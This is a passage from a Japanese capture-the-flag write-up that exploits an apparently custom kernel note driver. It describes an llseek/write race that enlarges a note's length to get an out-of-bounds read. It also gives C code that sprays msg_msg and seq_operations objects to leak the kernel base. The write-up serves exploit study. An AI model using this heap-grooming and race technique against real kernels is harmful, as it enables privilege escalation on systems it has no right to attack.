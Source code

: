 ここで、以下のようにすることでraceを起こして`note->length`を`MAX_NOTE_SIZE`よりも任意に大きくすることが出来る。

Thread A:
- llseek(0, END)
- write(MAX_NOTE_SIZE)

Thread B:
- llseek(0, CUR)

上手いこと`llseek(END, 0) -> write呼び出し -> llseek(SET, 0) -> write前半のチェック`という流れになれば、`write`の第3引数を`MAX_NOTE_SIZE`にしたまま`write`の諸々のチェックをパスしてノートサイズを増やすことが出来る。

これでOOB(read)の完成。


# kbase leak

ノートサイズは0x400であり、あんま良い感じの構造体はただでは隣接しなさそう。ということで、`seq_operations`が入る0x20スラブと0x400スラブを大量に確保して枯渇させ、新たにページを確保させて隣接させる。

```spray.c
  // heap spray
  puts("[.] heap spraying...");
  for (int jx = 0; jx != 0x100; ++jx) {
    int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    if (qid == -1)
    {
      errExit("msgget");
    }
    struct _msgbuf400 msgbuf = {.mtype = 1};
    memset(msgbuf.mtext, 'A', 0x400);
    KMALLOC(qid, msgbuf, 0x10);
  }
  puts("[.] END heap spraying");

  // init
  if ((fd = open(DEV_PATH, O_RDWR)) < 0)
  {
    errExit("open");
  }
  puts("[.] opened dev file.");

  // alloc seq_operations next to NOTE
  puts("[.] seq spraying...");
  #define SEQSIZE 0x300
  int seq_fds[SEQSIZE];
  for (int ix = 0; ix != SEQSIZE; ++ix)
  {
    if((seq_fds[ix] = open("/proc/self/stat", O_RDONLY)) == -1) {
      errExit("open seq");
    }
  }
  puts("[.] END seq spraying...");
```
